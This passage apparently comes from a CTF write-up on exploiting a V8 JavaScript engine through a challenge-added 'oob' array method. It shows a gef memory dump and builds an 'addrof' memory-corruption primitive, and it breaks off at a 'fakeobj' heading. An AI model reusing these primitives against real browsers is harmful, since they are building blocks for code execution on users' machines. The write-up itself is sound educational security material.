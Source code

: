 ```
var fl_arr = [1.1];
var temp_obj = {"A":1};
var obj_arr = [temp_obj];

fl_arr.oob(100);

let test_obj = {"A":2};
obj_arr[0] = test_obj;
%DebugPrint(obj_arr);
%DebugPrint(fl_arr);
%SystemBreak();
```

```
gef➤  x/64xw 0x1ca700045df5-1
0x1ca700045df4: 0x00000925      0x00000002      0x9999999a   <-- fl_arr[0]   0x3ff19999
0x1ca700045e04  <-- fl_arr: 0x0018d429      0x00000219      0x00045df5      0x000000c8
0x1ca700045e14: 0x00194c41      0x00000219      0x00000219      0x00000002
0x1ca700045e24: 0x00000129      0x00010001      0x00000000      0x00000279
0x1ca700045e34: 0x00002895      0x00000084      0x00000002      0x00000089
0x1ca700045e44: 0x00000002      0x00045e5d      0x0018d4a9      0x00000219
0x1ca700045e54: 0x00045e41 <-- test_obj 0x00000002      0x00194c41      0x00000219
0x1ca700045e64: 0x00000219      0x00000004      0x00000335      0x00045df5
0x1ca700045e74: 0x000000c8      0x00000515      0x00000002      0x00045df5
0x1ca700045e84: 0x00000000      0x00000515      0x00000002      0x000000c8
0x1ca700045e94: 0x00000000      0x00000515      0x00000002      0x00000000
0x1ca700045ea4: 0x000000c8      0x00000515      0x00000002      0x00045df5
0x1ca700045eb4: 0x000000c8      0x00000515      0x00000002      0x000000c8
0x1ca700045ec4: 0x00000000      0x0000058d      0x00000003      0x00000002
0x1ca700045ed4: 0x00003863      0x0000058d      0x00000003      0x00000004
0x1ca700045ee4: 0x38637830      0x00000000      0x00000000      0x00000000
0x1ca700045ef4: 0x00000000      0x00000000      0x00000000      0x00000000
```

From the memory layout, we can tell that the ptr of `test_obj` has been placed at `fl_arr[9]`. Therefore, we can create the following `addrof` function.

```
var fl_arr = [1.1];
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
fl_arr.oob(100);

function addrof(obj) {
  obj_arr[0] = obj;
  let addr = ftoi(fl_arr[9]) >> 32n;
  obj_arr[0] = temp_obj;
  return addr;
}
```

#### fakeobj
